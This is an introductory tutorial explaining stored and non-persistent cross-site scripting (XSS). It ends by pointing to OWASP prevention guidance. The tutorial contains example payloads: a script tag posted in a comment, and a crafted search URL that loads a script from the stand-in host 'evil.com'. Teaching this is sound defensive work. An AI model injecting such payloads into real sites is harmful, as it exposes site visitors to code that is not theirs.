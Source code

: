 ```yaml
---
title: What is XSS injection?
description: An intro to XSS injection, and tips on mitigating such attacks.
date_created: 2014-03-28
---
```


XSS injection (XSS stands for Cross-Site Scripting) works a bit like SQL injection: improperly sanitized user-submitted data is used to alter the application's functionality. Instead of altering SQL queries, XSS injection alters HTML and JavaScript.

For example, a hacker could leave the following comment on a vulnerable site:

```
<script>alert('Your site was hacked!');</script>

```

When the site displays the comments, it also serves the hacker's malicious code:

```
<div class='comment'>
 John Johnson said:
 What a great site! Thank you for this article!
</div>
<div class='comment'>
 CleverHacker said:
 <script>alert('Your site was hacked!');</script>
</div>

```

In the example above, all sites visitors would see a popup that says "Your site was hacked". Far more potent attacks have been used to deface important websites.

It is called **persistent** or **stored XSS** when the server stores the malicious code and serves it to the users as in our example above. When the attack is performed by injecting the code in invalid URL parameters, it is called **non-persistent XSS**.

The following example shows how a non-persistent XSS attack is performed. In this example, Bob sends Alice the following URL:

```
http://news.org/search/?q=<script src='evil.com/hack.js'></script>

```

Since the page displays the search query, the `<script>` tag will be executed and the malicious JavaScript file will be loaded:

```
<h1>
 Showing results for query <script src='evil.com/hack.js'></script>
</h1>

```

XSS injection can be preventing by properly sanitizing any user-provided data. OWASP has [an excellent guide](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet) on securing your applications against XSS.

